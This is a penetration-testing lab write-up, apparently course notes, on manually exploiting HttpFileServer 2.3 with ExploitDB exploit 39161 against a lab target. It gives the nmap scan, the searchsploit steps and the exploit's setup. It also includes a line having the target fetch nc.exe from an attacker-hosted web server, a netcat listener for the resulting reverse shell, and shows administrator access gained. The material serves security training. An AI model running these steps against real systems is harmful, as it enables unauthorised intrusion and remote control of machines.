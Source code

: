 # 🔬Fixing Exploits - HFS

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Same as the [HFS - MSF Exploit Lab](../../hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp.md)
>  - Target IP: `10.2.23.79`
>  - Manually exploit the target with **ExploitDB exploits**
>  - Attacker machine is offline

```bash
nmap -sV 10.2.23.79
```

```bash
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

- Use `searchsploit` to identify `HttpFileServer httpd 2.3` vulnerabilities

```bash
searchsploit HTTP File Server 2.3
```

![searchsploit HTTP File Server 2.3](4-exploitationassets/image-20230423132333200.png)

- Copy the exploit to the Desktop

```bash
cd Desktop/
searchsploit -m 39161
```

### Analyzing the Exploit

```bash
vim 39161.py
```

![](4-exploitationassets/image-20230423132623415.png)

- Read the exploit
  - *You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe). You may need to run it multiple times for success!*
  - `ip_addr` - change to attacker Kali Linux IP
  - `local_port` - change to 1234

### Execute the Exploit

- Save and run the exploit

```bash
# In a new terminal session
cd Desktop/
cp /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer 80
```

```bash
# In a new terminal session
# Run the netcat listener on the exploit specified "local_port"
nc -nvlp 1234
```

```bash
# From the first terminal windows, run the exploit
python 39161.py 10.2.23.79 80
```

```bash
whoami
	win-omcnbkr66mn\administrator
systeminfo
```

![](4-exploitationassets/hfs-netcat-exp.gif)

------

